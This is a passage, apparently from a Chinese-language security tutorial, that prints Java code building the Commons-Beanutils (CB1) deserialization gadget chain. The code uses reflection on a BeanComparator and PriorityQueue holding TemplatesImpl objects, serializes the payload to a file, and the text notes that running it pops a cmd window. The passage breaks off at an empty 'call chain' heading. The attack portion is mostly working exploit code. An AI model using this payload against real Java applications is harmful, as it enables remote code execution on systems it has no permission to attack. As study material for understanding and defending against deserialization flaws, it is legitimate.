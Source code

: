 ```java

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //==========================CB1链触发点 START==========================

        // mock method name until armed
        final BeanComparator comparator = new BeanComparator("lowestSetBit");

        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        // 这里是让其触发BigInteger.lowestSetBit属性方法，可以在set queue值的时候不报错。
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        // switch method called by comparator
        // 然后通过反射来对应的属性值，这样就能避免触发额外的动作
        Field property = comparator.getClass().getDeclaredField("property");
        property.setAccessible(true);
        property.set(comparator, "outputProperties");

        // switch contents of queue
        // queue中的值也是一样，通过反射来set值就不会触发heapfiy等一系列动作
        Field queueFiled = queue.getClass().getDeclaredField("queue");
        queueFiled.setAccessible(true);
        final Object[] queueArray = (Object[])queueFiled.get(queue);
        queueArray[0] = templates;
        queueArray[1] = templates;

        //====================CB1链触发END===================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```

## 运行

尝试运行代码，来弹个cmd

![image-20241120142836006](./main.assets/image-20241120142836006.png)

## 调用链

调用链如下
